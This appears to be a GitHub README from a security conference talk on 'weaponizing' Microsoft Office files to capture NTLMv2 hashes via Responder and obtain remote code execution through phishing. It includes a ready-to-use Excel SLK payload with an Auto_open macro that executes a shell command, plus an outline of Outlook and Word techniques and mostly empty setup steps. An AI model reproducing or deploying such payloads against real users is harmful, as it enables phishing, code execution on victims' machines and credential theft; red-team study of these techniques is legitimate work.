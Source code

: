 # Weaponizing-Office

## Introduction:
I did a talk at [0xC0ffee](https://0xc0ffee.co.za), where I discussed different ways to weaponize microsoft office.
What was different about the talk, was that these methods have been discovered prior to 2017, and did not require a lot of user interaction to execute the payloads. These methods work great with phishing attacks.

I decided not to use a standard way to present my talk, so [@MTB_m00se](https://twitter.com/MTB_m00se) introduced me to terminal markdown where I found [patat](https://github.com/jaspervdj/patat)

I recently discovered a tool called [Responder[(https://github.com/SpiderLabs/Responder), which I used in my talk.
I mainly used Responder to capture NTLMv2 hashes from victom machines.

I found a great [article](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4) explaining what is NTLMv2 hashes and what can be done with it.

Below is a short extract from the article:
> This is the way passwords are stored on modern Windows systems, and can be obtained by dumping the SAM database, or using Mimikatz. They are also stored on domain controllers in the NTDS file. These are the hashes you can use to pass-the-hash.

## Contents:
1. Excel (.SLK)
2. Outlook (file://)
3. Word (frameset)

Objective is to capture NTLMv2 hashes by using the above programs. The user should not have to do more than 1 click after downloading the office file. 

```BONUS: will try to get reverse shells as well```

## 1. Excel (.SLK)

> An SLK file is a file saved in the Symbolic Link (SYLK) format created by Microsoft to transfer data between spreadsheet programs and other databases. 

I found this exploit on [ired.team](https://ired.team/offensive-security/phishing-with-ms-office/phishing-.slk-excel) which gave a great walkthrough oh how to exactact perform RCE in an SLK file.

### Excel RCE

#### Setup
1. Create an new text file, put the the below code and save it as .slk file:
```
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("c:\shell.cmd")
C;X1;Y102;K0;EHALT()
E
```

2.
3.

#### CApture NTLMv2 Hash




### Excel RCE - Powershell Reverse shell
![](excel_NTLMv2_hash_capture.gif)


More on [Symbolic Link](https://en.wikipedia.org/wiki/SYmbolic_LinK_(SYLK)) files
